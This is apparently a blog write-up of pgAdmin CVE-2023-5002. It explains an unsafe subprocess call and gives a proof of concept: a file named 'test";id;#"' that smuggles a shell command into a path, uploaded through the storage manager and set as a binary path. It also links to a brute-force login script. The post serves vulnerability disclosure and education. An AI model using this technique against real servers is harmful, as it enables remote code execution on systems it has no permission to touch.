 ```yaml
---
title: PgAdmin CVE-2023-5002 exploitation
date: 2024-03-10 12:00:00 +00:00
tags: [hack, exploit, rce]
description: La la la short description for rss
---
```


# CVE-2023-5002

## Description

[This vulnerability][1] is a continuation of vulnerability [CVE-2022-4223][2] ([there is a good article][3] about this vulnerability).

[A security researcher][4] found the vulnerability and [created a pull request][5] with a fix and example of command injection:
```python
 >>> subprocess.getoutput(r'echo "{0}"'.format("Hello $(whoami)").replace('"', '""'))
Hello gronke
```

The problem is that pgadmin allows you to check the existence of utilities by passing the path to them:
<img src="/assets/img/pgadmin-cve-2023-5002/pgadmin-1.png">

in this case, [validation is carried out][6] only for the existence of such a path:
```python
...
    # if path doesn't exist raise exception
    if not os.path.exists(binary_path):
        current_app.logger.warning('Invalid binary path.')
        raise Exception()
    # Get the output of the '--version' command
    version_string = \
        subprocess.getoutput('"{0}" --version'.format(full_path))
...
```

For such a check to pass, the file must exist in the system. Fortunately, pgadmin has a storage manager that allows you to upload any files.

## Proof of Concept

We have everything to exploit the vulnerability.

We should start by preparing a file that needs to be uploaded to `pgadmin`. Since command execution occurs when the file name puts in `subprocess.getoutput`, the file must simultaneously be a valid path and command.
```bash
$ touch 'test";id;#"'
$ python3
>>> import os, subprocess
>>> os.path.exists('test";id;#"')
True
>>> subprocess.getoutput('"{0}" --version'.format('test";id;#"'))
uid=1000(user) gid=1000(user) groups=1000(user)
```

After preparing the file, we need to upload it `tools -> storage manager -> upload`:
<img src="/assets/img/pgadmin-cve-2023-5002/pgadmin-2.png">

Our file loaded, but the double quotes were removed:
<img src="/assets/img/pgadmin-cve-2023-5002/pgadmin-3.png">

We also need to rename the file to return double quotes instead of url encoded chars:
<img src="/assets/img/pgadmin-cve-2023-5002/pgadmin-4.png">

By default, `pgadmin` saves all downloaded files in `/var/lib/pgadmin/storage/user@domain.com` but with the `@` character replaced by `_`.

You can find the exact path in the settings (they can be read by an authorized user via the `API`):
```python
...
STORAGE_DIR = "/var/lib/pgadmin/storage"
...
```

And finally run our file for execution `file -> preference -> binary path` used full path to our file `/var/lib/pgadmin/storage/user_domain/test";id;#"`:
<img src="/assets/img/pgadmin-cve-2023-5002/pgadmin-5.png">

## Bonus parts

### CVE-2024-2044

Just a week ago (from the moment of writing this article) [an issue was created][97] in pgadmin with a new RCE ([backup link][98]).

### Brute-force login

As a bonus to vulnerability, [get a script][99] for brute force login in PgAdmin as a gift.


[1]: https://nvd.nist.gov/vuln/detail/CVE-2023-5002
[2]: https://nvd.nist.gov/vuln/detail/CVE-2022-4223
[3]: https://frycos.github.io/vulns4free/2022/12/02/rce-in-20-minutes.html
[4]: https://github.com/gronke
[5]: https://github.com/pgadmin-org/pgadmin4/pull/6772
[6]: https://github.com/pgadmin-org/pgadmin4/blob/c08953b9b386e302835585bded6da4df70358e71/web/pgadmin/misc/__init__.py#L268
[97]: https://github.com/pgadmin-org/pgadmin4/issues/7258
[98]: https://gist.github.com/dorosch/1c751711f553187094e5019e60c1788d
[99]: https://gist.github.com/dorosch/8320a91106d0684d6d2784def2d0cede
